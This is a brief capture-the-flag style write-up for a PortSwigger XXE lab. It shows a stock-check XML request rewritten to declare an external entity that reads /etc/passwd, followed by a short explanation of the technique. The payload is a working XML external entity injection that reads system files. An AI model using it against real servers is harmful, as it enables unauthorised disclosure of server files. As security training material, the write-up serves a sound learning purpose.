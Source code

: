 # Lab: Exploiting XXE using external entities to retrieve files
# https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

```bash
# Check product/stock request from burp.

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

# We found xml code in it so send it to repeater.
```
```bash
# Turn it to this end send it

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE abc [ <!ENTITY passw SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&passw;</productId><storeId>1</storeId></stockCheck>

# And we solved the lab!

# Exploiting  XXE To Retrive Files:

# To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

# Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
# Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

```
# References: https://portswigger.net/web-security/xxe#what-is-xml-external-entity-injection
